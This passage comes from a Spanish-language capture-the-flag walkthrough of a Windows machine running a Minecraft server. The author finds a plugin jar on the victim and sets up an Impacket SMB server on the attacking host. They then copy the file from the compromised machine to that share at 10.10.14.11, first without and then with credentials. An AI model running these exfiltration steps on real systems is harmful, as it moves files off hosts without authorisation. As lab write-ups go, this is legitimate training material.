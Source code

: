 Al revisar los **plugins** que hay para el servidor, se ve uno con un nombre interesante. Por lo que se puede intentar traerlo a la máquina atacante para analizarlo.

```bash
c:\Users\svc_minecraft\server\plugins>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is C419-63F6

 Directory of c:\Users\svc_minecraft\server\plugins

10/27/2023  01:48 PM    <DIR>          .
10/27/2023  01:48 PM    <DIR>          ..
10/27/2023  01:48 PM             9,996 playercounter-1.0-SNAPSHOT.jar
               1 File(s)          9,996 bytes
               2 Dir(s)   3,253,649,408 bytes free
```
{: .nolineno}

Para transferirlo, se monta un servidor **SMB** con ayuda de **Impacket** para que se pueda subir el archivo al mismo.

```bash
sudo impacket-smbserver share -smb2support .

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
{: .nolineno}

Pero parece haber un problema debido a las políticas, en donde no se puede realizar acciones como un usuario no autenticado dentro del servidor.

```bash
c:\Users\svc_minecraft\server\plugins>copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.11\share   
You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
        0 file(s) copied.
```
{: .nolineno}

Para esto mismo, se opta por la opción de ponerle **credenciales** al servidor.

```bash
sudo impacket-smbserver share -smb2support . -user madlies -password madlies
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
{: .nolineno}
